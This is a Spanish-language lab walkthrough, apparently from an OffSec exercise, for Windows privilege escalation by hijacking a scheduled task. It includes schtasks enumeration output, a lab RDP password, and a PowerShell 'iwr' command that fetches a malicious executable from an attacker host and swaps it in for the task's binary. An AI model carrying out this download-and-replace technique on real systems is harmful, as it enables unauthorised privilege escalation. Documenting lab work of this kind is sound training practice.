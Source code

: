 # Walk: Windows Privilege Escalation - Scheduled Tasks - VM #2

## Fecha: 10/03/2025
## Host: Windows
## IP: 192.168.134.221
## Objetivo
Connect to _CLIENTWK221_ (VM #2) via RDP as the user _moss_ with the password _work6potence6PLASMA6flint7_. Enumerate the scheduled tasks on the system and find a way to obtain an interactive shell as user running the scheduled task. The flag can be found on the desktop.
## Herramientas
1. schtasks
## Procedimiento y comandos
#### Paso 1: Enumeramos las tareas
```
schtasks /query /fo LIST /v
...
Folder: \Microsoft
HostName:                             CLIENTWK221
TaskName:                             \Microsoft\Voice Activation
Next Run Time:                        3/10/2025 5:13:50 AM
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        3/10/2025 5:12:51 AM
Last Result:                          1
Author:                               CLIENTWK221\offsec
Task To Run:                          C:\Users\moss\Searches\VoiceActivation.exe
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode
Run As User:                          roy
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: Disabled
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
...
```
>Esta tarea tiene todo lo que nos sirve

1. Tenemos permiso sobre el directorio
2. La tarea fue programada por el usuario _offsec_
3. Se ejecuata una vez por minuto


#### Paso 2: Cargamos el ejecutable malicioso
1. Una vez que servimos el archivo **_.exe_** , lo obtenemos desde el usuario _**moss**_
`iwr -uri http://192.168.45.200/changeAllPass.exe -Outfile VoiceActivation.exe`
2. Generamos una copia en el directorio de ejecucion y movemos nuestro archivo 
```
PS C:\Users\moss> move .\Searches\VoiceActivation.exe VoiceActivation.exe.bak
PS C:\Users\moss> move .\VoiceActivation.exe .\Searches\
```
#### Paso 3: Obtenemos el flag
1. Confirmamos el cambio de password ingresando en varios usuarios hasta encontrar el flag:
```
C:\Windows\system32>cd C:\Users\roy\Desktop

C:\Users\roy\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 045E-FF31

 Directory of C:\Users\roy\Desktop

11/15/2022  10:11 AM    <DIR>          .
12/06/2022  03:24 PM    <DIR>          ..
03/10/2025  05:04 AM                38 flag.txt
11/14/2022  04:33 PM             2,354 Microsoft Edge.lnk
               2 File(s)          2,392 bytes
               2 Dir(s)   3,853,475,840 bytes free

C:\Users\roy\Desktop>type flag.txt
OS{9e1d4************************86481}

C:\Users\roy\Desktop>
```
